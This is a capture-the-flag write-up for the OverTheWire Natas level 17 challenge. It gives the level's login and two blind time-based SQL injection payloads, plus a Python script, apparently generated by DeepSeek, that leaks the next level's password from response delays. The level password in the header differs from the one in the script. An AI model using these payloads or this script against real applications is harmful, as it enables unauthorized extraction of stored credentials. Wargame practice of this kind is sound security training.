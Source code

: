 # Username
natas17
# Password
EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
# Web vulnerability
SQL injection, blind time-based injection
# Method of solve
From the source code, we know a few things
* the name of the table: "users"
* the columns in the table: "username", and "password"

We have to construct a payload that causes the app to sleep, because the app doesn't give us any text feedback.
We also need to construct a UNION-based payload and determine the number of columns returned.
This payload will get us started
```
" UNION SELECT 1,sleep(5) FROM users where username like 'a%';-- - 
```
We can shortcut this process by guessing that the username we're looking for is natas18. That means we can start leaking the user's password with this payload
```
" UNION SELECT 1,sleep(5) FROM users where username = 'natas18' and password like "a%";-- - 
```
We should automate this task, because the passwords are 32 characters long..
I got this code from the DeepSeek AI.
```
import requests
import string
import time

# Target URL and parameters
url = "http://natas17.natas.labs.overthewire.org/index.php"
auth = ("natas17", "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw")  # Replace with your creds

# Characters to test (alphanumeric + some special chars)
chars = string.ascii_letters + string.digits + "!@#$%^&*"
password = ""
found_char = True

while found_char:
    found_char = False
    for char in chars:
        # Payload: Checks if current password starts with (known_chars + new_char)
        payload = f'" UNION SELECT 1,sleep(5) FROM users where username = "natas18" and password LIKE BINARY "{password + char}%"; -- -'
        
        start_time = time.time()
        response = requests.post(
            url,
            auth=auth,
            data={"username": payload},
            proxies={"http": "http://127.0.0.1:8080"}  # Optional: Burp Suite proxy
        )
        elapsed = time.time() - start_time

        # If response took >5 seconds, char is correct
        if elapsed > 5:
            password += char
            print(f"Found char: {char} | Password so far: {password}")
            found_char = True
            break

    # If no new char found, password is complete
    if not found_char:
        print(f"Password extraction complete: {password}")
        break
```
